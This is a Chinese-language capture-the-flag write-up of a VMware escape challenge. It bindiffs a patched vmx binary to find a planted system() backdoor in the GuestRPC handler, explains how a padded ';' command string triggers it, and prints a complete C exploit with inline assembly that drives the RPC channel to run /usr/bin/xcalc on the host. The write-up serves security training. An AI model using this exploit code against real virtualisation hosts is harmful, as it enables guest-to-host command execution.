





# 环境搭建
- ubuntu :18.04.01
- vmware: VMware-Workstation-Full-15.5.0-14665864.x86_64.bundle
~~这里一直没把环境搭成功……打完补丁后报错，不知道怎么修~~ 后来发现补丁在被 IDA 加载后可能就不能用了，可能影响到了原补丁。重新下载补丁后发现可以运行，但没有网络……不过似乎自带 vmtools。

# 漏洞点
用 bindiff 对比原版 vmx 和打过补丁的版本，发现了下面的修改。

将这里替换为 nop，并留下了一个后门。


在 sub_16E220 函数开头，调用 sub_5463D0(1LL) 得到 v2，用来决定执行 switch 语句的哪个分支。各分支对应不同的 RPC 通信操作：
打开 GuestRPC 通道
发送命令长度
发送命令数据
接收回复长度
接收回复数据
发送接收完成信号
关闭通道

下面是 bindiff 中差异位置对应的反编译代码，属于 case 4。

其中出现了与通道有关的字符串 GuestMsg: Channel %u, Not enough memory to receive a message，再结合函数开头检查 number 是否位于 0-6 范围内的 switch-case，很容易联想到 GuestRPC Handler，即处理 RPC 通信的命令处理函数。下方代码仅保留漏洞所在部分，可以看到这条路径处理的是 subcommand=0x4，也就是接收回复数据。

```c
   case 4u:
      v49 = sub_16DE80(6LL, 7LL);
      v8 = (_DWORD *)v49;
      if ( !v49 )
        goto LABEL_62;
      LODWORD(v9) = *(_DWORD *)v49;
      if ( *(_DWORD *)v49 != 3 )
        goto LABEL_20;
      if ( *(_BYTE *)(v49 + 8) == 1 )
        goto LABEL_48;
      if ( !*(_QWORD *)(v49 + 56) )
        goto LABEL_90;
      if ( (sub_5463D0(3LL) & 1) == 0 )
      {
        v11 = (__int64)v8;
        goto LABEL_81;
      }
      v36 = (unsigned __int64)&stru_20000;
      sub_546480(2LL, &stru_20000);
      v50 = (unsigned int)v8[12];
      v51 = (unsigned __int16 *)(*((_QWORD *)v8 + 7) + (unsigned int)v8[11] - v50);
      if ( (_DWORD)v50 == 2 )
      {
        v36 = *v51;
        v37 = (_BYTE *)(&dword_0 + 3);
        sub_546480(3LL, v36);
        v52 = v8[12] - 2;
        v8[12] = v52;
      }
      else if ( (_DWORD)v50 == 3 )
      {
        v37 = (const char *)*((_QWORD *)v8 + 7);
        system(v37);
        v52 = v8[12] - 3;
        v8[12] = v52;
      }
      else
      {
        if ( (_DWORD)v50 == 1 )
        {
          v36 = *(unsigned __int8 *)v51;
          v37 = (_BYTE *)(&dword_0 + 3);
          sub_546480(3LL, v36);
          v52 = v8[12] - 1;
        }
        else
        {
          v36 = *(unsigned int *)v51;
          v37 = (_BYTE *)(&dword_0 + 3);
          sub_546480(3LL, v36);
          v52 = v8[12] - 4;
        }
        v8[12] = v52;
      }
      if ( !v52 )
        *v8 = 4;
LABEL_31:
      v44 = sub_533C10(v37, v36, v9);
      v19 = 0x10000LL;
      *((_QWORD *)v8 + 2) = v44;
      goto LABEL_12;
```

这里的 need 表示尚未发送的数据长度。当 need >= 4 时，每次发送 4 字节，最后对 need < 4 的情况作特殊处理。后门函数就位于 need == 3 的判断中。

另外，调试发现 state == 3 对应宿主机向客户机回复数据的阶段。因此，需要宿主机回复给客户机的数据长度对 4 取模等于 3，同时 buf 恰好是要执行的命令。

调试发现，回复数据的长度等于 info-set guestinfo.x 后面的字符串长度加 2，执行的命令也正好是这个字符串，只是在前面多了两个字节，包含字符 1。recv rpc data 中提到，rpctype 的前两个字节表示成功或失败；Receive RPC reply length 中也提到，回复数据的前两个字节始终表示 RPC 命令的状态。因此，need 的最终总长度就是 info-set guestinfo.x 后面的字符串长度加 2，即 `1 string`，buf 则指向这段内容的起始地址。所以 system 执行命令时，执行的是 `1 string`。为了执行 string 中的命令，要让字符串以 ; 开头，将前面的内容截断。最后，只需保证字符串长度加 2 后对 4 取模等于 3，也就是字符串长度对 4 取模等于 1。

这里的 `;` 已经占了一个字符，因此只要保证其余部分的长度是 4 的倍数即可。这样就可以执行任意命令：可以通过添加空格补齐长度，并在最后加上 ; 或 &，否则虚拟机会出问题。


另外，执行命令的参数前面固定带有 1。我在它后面追加 ; 来执行下一条命令，所以最终要执行的命令是 /usr/bin/xcalc ;。

# exp

```c
#include <ctype.h>
#include <stdint-gcc.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void byte_dump(char *desc, void *addr, int len) {
    uint8_t *buf8 = (unsigned char *) addr;
    if (desc != NULL) {
        printf("[*] %s:\n", desc);
    }
    for (int i = 0; i < len; i += 16) {
        printf("  %04x", i);
        for (int j = 0; j < 16; j++) {
            i + j < len ? printf(" %02x", buf8[i + j]) : printf("   ");
        }
        printf("   ");
        for (int j = 0; j < 16 && j + i < len; j++) {
            printf("%c", isprint(buf8[i + j]) ? buf8[i + j] : '.');
        }
        puts("");
    }
}
void channel_open(int *cookie1, int *cookie2, int *channel_num, int *res) {
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rdi,%%r10\n\t"
        "movq %%rsi,%%r11\n\t"
        "movq %%rdx,%%r12\n\t"
        "movq %%rcx,%%r13\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0xc9435052,%%ebx\n\t"
        "movl $0x1e,%%ecx\n\t"
        "movl $0x5658,%%edx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%edi,(%%r10)\n\t"
        "movl %%esi,(%%r11)\n\t"
        "movl %%edx,(%%r12)\n\t"
        "movl %%ecx,(%%r13)\n\t"
        :
        :
        : "%rax", "%rbx", "%rcx", "%rdx", "%rsi", "%rdi", "%r8", "%r10", "%r11", "%r12", "%r13");
}

void channel_set_len(int cookie1, int cookie2, int channel_num, int len, int *res) {
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movl %%ecx,%%ebx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0001001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        : "%rax", "%rbx", "%rcx", "%rdx", "%rsi", "%rdi", "%r10");
}

void channel_send_data(int cookie1, int cookie2, int channel_num, int len, char *data, int *res) {
    asm("pushq %%rbp\n\t"
        "movq %%r9,%%r10\n\t"
        "movq %%r8,%%rbp\n\t"
        "movq %%rcx,%%r11\n\t"
        "movq $0,%%r12\n\t"
        "1:\n\t"
        "movq %%r8,%%rbp\n\t"
        "add %%r12,%%rbp\n\t"
        "movl (%%rbp),%%ebx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0002001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "addq $4,%%r12\n\t"
        "cmpq %%r12,%%r11\n\t"
        "ja 1b\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        : "%rax", "%rbx", "%rcx", "%rdx", "%rsi", "%rdi", "%r10", "%r11", "%r12");
}

void channel_recv_reply_len(int cookie1, int cookie2, int channel_num, int *len, int *res) {
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movq %%rcx,%%r11\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0003001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "movl %%ebx,(%%r11)\n\t"
        :
        :
        : "%rax", "%rbx", "%rcx", "%rdx", "%rsi", "%rdi", "%r10", "%r11");
}

void channel_recv_data(int cookie1, int cookie2, int channel_num, int offset, char *data, int *res) {
    asm("pushq %%rbp\n\t"
        "movq %%r9,%%r10\n\t"
        "movq %%r8,%%rbp\n\t"
        "movq %%rcx,%%r11\n\t"
        "movq $1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0004001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "in %%dx,%%eax\n\t"
        "add %%r11,%%rbp\n\t"
        "movl %%ebx,(%%rbp)\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        : "%rax", "%rbx", "%rcx", "%rdx", "%rsi", "%rdi", "%r10", "%r11", "%r12");
}

void channel_recv_finish(int cookie1, int cookie2, int channel_num, int *res) {
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        : "%rax", "%rbx", "%rcx", "%rdx", "%rsi", "%rdi", "%r10");
}

void channel_recv_finish2(int cookie1, int cookie2, int channel_num, int *res) {
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x21,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        : "%rax", "%rbx", "%rcx", "%rdx", "%rsi", "%rdi", "%r10");
}

void channel_close(int cookie1, int cookie2, int channel_num, int *res) {
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0006001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        : "%rax", "%rbx", "%rcx", "%rdx", "%rsi", "%rdi", "%r10");
}

typedef struct {
    int cookie1;
    int cookie2;
    int num;
} channel;

void run_cmd(char *cmd) {
    channel cannel;
    int res, len;
    channel_open(&cannel.cookie1, &cannel.cookie2, &cannel.num, &res);
    if (!res) {
        puts("[-] fail to open channel.");
        exit(EXIT_FAILURE);
    }
    channel_set_len(cannel.cookie1, cannel.cookie2, cannel.num, strlen(cmd), &res);
    if (!res) {
        puts("[-] fail to set len");
        exit(EXIT_FAILURE);
    }
    channel_send_data(cannel.cookie1, cannel.cookie2, cannel.num, strlen(cmd), cmd, &res);

    channel_recv_reply_len(cannel.cookie1, cannel.cookie2, cannel.num, &len, &res);
    if (!res) {
        puts("[-] fail to recv data len");
        exit(EXIT_FAILURE);
    }
    printf("[*] recv len:%d\n", len);

    char *data = malloc(len);
    memset(data, 0, len );
    for (int i = 0; i < len ; i += 4) {
        channel_recv_data(cannel.cookie1, cannel.cookie2, cannel.num, i, data, &res);
    }

    byte_dump("recv data", data, len );

    channel_recv_finish(cannel.cookie1, cannel.cookie2, cannel.num, &res);
    if (!res) {
        puts("[-] fail to recv finish");
        exit(EXIT_FAILURE);
    }

    channel_close(cannel.cookie1, cannel.cookie2, cannel.num, &res);
    if (!res) {
        puts("[-] fail to close channel");
        exit(EXIT_FAILURE);
    }
}

int main() {
    run_cmd("info-set guestinfo.x ;/usr/bin/xcalc ;");
    run_cmd("info-get guestinfo.x");
    return 0;
}
```

asm 中各个冒号的含义：
- 第一个冒号后为空，表示没有输出操作数。
- 第二个冒号后为空，表示没有输入操作数。
- 第三个冒号后是被修改的寄存器列表，用于告诉编译器嵌入式汇编代码会修改哪些寄存器。



